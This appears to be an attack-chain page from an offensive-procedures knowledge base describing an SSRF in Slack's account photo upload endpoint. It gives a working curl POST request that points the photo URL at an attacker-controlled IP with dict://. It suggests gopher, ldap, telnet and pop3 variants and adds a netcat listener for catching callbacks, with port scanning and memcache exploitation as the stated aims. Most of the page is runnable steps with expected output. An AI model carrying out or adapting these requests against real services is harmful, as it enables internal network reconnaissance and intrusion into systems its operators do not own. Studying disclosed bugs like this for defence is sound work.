

# SSRF Exploitation in Slack Account Photo Upload for Internal Port Scanning

Multi-stage attack chain demonstrating SSRF in Slack's photo upload endpoint to connect to arbitrary hosts and protocols, enabling port scanning and potential internal service exploitation.

## Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| Chain Status | Unverified |
| Total Steps | 2 |
| Execution Time | ~5 minutes |
| Skill Level | Intermediate |
| Complexity | Medium |
| Impact Level | High |

## Attack Flow Visualization



## Prerequisites & Requirements

### Required Tools

- [[tools/nc]]
- curl (for sending HTTP requests)

### Target Environment

- Web platform
- Access to Slack account (authenticated session)
- Attacker-controlled server with public IP

### Initial Access Requirements

- Valid Slack workspace credentials
- Network access to https://whitehataudit.slack.com (or similar Slack domain)
- No prior internal access needed; exploits public endpoint

## Detailed Attack Procedures

### Step 1: Send Malicious POST Request
procedure: [[procedures/Send-Malicious-POST-Request-for-SSRF-Exploitation]]

**Objective**: Trigger SSRF by uploading a photo URL with arbitrary protocol wrappers to connect to attacker-controlled server.

**Instructions**: Use [[commands/curl-send-ssrf-request]] to craft and send the POST request with malicious URL parameters:

```bash
curl -X POST 'https://whitehataudit.slack.com/account/photo' \
  -H 'Referer: https://whitehataudit.slack.com/account/photo?url=http://95.211.198.76:5555/picture-54679.jpg' \
  --data-raw 'crumb=s-1401452311-423d40614d-%E2%98%83&crop=1&url=dict%3A%2F%2F95.211.198.76%3A6666%2Fpicture-54679.jpg&cropbox=0%2C0%2C85'
```

Replace the URL with variations like gopher://, ldap://, telnet://, pop3:// for different protocols. Ensure authentication cookies are included if required.

**Expected Output**: HTTP response from Slack indicating upload processing; no immediate error, but backend fetches the malicious URL.

**Success Indicators**:
- No client-side rejection of non-HTTP URL
- Server-side processing without validation

### Step 2: Verify SSRF with Netcat Listener
procedure: [[procedures/Verify-SSRF-with-Netcat-Listener]]

**Objective**: Capture incoming connections from Slack infrastructure to confirm SSRF and observe protocol interactions.

**Instructions**: Start [[commands/nc-listen-verbose]] on the attacker server for each port and protocol:

```bash
nc -lvv 6655
```

Run this on ports like 6655, 6666, 5555. Monitor for connections from Slack IPs (e.g., 184.73.10.28).

**Expected Output**: Incoming connection logs with protocol-specific requests, e.g., 'Connection from 184.73.10.28 port 6655 [tcp/*] accepted' followed by GET or dict queries.

**Success Indicators**:
- Connections from Slack IPs (e.g., AWS-hosted ranges)
- Protocol interactions confirming SSRF (e.g., dict CLIENT request)

## Attack Chain Summary

### Key Achievements

1. Successful SSRF trigger via unrestricted URL parameter
2. Observation of internal fetches using non-HTTP protocols
3. Potential for port scanning and memcache exploitation via wrappers

## Technique & Tactic Coverage

### MITRE ATT&CK Techniques

- [[Exploit Public-Facing Application]] Exploit Public-Facing Application
- [[Network Service Scanning]] Network Service Scanning

### MITRE ATT&CK Tactics

- [[Initial Access]] Initial Access
- [[Reconnaissance]] Reconnaissance

---

*Last updated: 2023-10-01T00:00:00Z*
